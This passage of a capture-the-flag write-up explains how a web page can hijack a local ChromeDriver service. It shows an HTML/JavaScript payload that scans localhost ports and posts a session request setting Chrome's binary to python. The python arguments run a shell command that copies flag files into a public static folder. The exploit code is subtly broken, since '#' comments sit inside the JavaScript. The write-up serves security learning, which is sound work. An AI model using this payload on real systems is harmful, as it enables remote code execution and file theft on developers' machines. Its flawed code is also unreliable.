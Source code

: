 A **headless** Chrome instance is launched from a **specific location** with **custom behavior**.

---

### ⚠️ Why is this powerful?

- You’re **controlling how and what Chrome runs** — not just opening tabs, but even telling it what program to launch.
- If you can change `"binary"` to something like `python` or `bash`, you might be able to execute arbitrary code — which is a **serious security risk**.

At first, it looked like we had a clear shot at getting **RCE 🧨** and stealing the flag 🏴. But then came the question:

**Will Same-Origin Policy block us again? 🤔**

Luckily, no! 😌

The Same-Origin Policy mainly stops you from **reading responses** from other domains 🌐 — it **doesn’t stop you from sending requests**. That’s why our DevTools idea failed earlier: we needed to **read** the WebSocket URL 📡, and the browser said ❌.

Now the big question is:

**What port is ChromeDriver running on? 🔍**

We need that info to send our next move. 💥

## ChromeDriver Port

When ChromeDriver starts, it picks a random port number. This means we don’t know which port to send our request to.

here i will take port range from 32768 to 60999 (depends on linux system)

Why this range (32768-60999) explained here : https://book.jorianwoltjer.com/web/client-side/headless-browsers#websocket 

Looping the ports and adding binary and ARGS to exfiltarte the flag.

```python
-----------script 2-------------
# csrf to rce chromeDriver payload
<html>
<body>
<script>
  const options = {
    mode: "no-cors",
    method: "POST",
    body: JSON.stringify({
      capabilities: {
        alwaysMatch: {
          "goog:chromeOptions": {
            binary: "/usr/local/bin/python",
            args: ["-c", "__import__('os').system('cat /flag* > /app/static/flag.txt')"
],
          },
        },
      },
    }),
  };
# scanning the port 
  for (let port = 32768; port < 61000; port++) {
    fetch(`http://127.0.0.1:${port}/session`, options);
  }
</script>

</body>
</html>
```
